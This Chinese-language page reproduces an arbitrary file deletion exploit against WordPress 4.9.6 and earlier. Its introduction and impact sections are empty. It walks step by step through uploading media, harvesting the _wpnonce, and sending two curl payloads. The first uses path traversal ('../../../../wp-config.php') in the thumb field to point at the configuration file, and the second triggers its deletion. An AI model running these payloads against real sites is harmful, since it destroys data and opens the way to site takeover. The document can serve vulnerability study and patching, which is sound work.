


# Wordpress <= 4.9.6 任意文件删除漏洞

> 原文：[http://book.iwonder.run/0day/Wordpress/20.html](http://book.iwonder.run/0day/Wordpress/20.html)

## 一、漏洞简介

利用条件 L：需要进入后台

## 二、漏洞影响

## 三、复现过程

### 添加新媒体

访问[http://0-sec.org/wp-admin/upload.php，然后上传图片。](http://0-sec.org/wp-admin/upload.php，然后上传图片。)



### 将$ meta ['thumb']设置为我们要删除的文件

#### 单击我们在中上传的图像 Step 2，并记住图像的 ID。


#### 访问[http://0-sec.org/wp-admin/post.php?post=4&action=edit._wpnonce 在页面源中查找](http://0-sec.org/wp-admin/post.php?post=4&action=edit._wpnonce 在页面源中查找)


#### 发送有效载荷：

```
curl -v 'http://0-sec.org/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php' 
```


### 发动攻击

#### 在页面源码中查找 _wpnonce


#### 发送有效载荷

```
curl -v 'http://9c9b.vsplate.me/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=delete&_wpnonce=***' 
```


#### 刷新页面



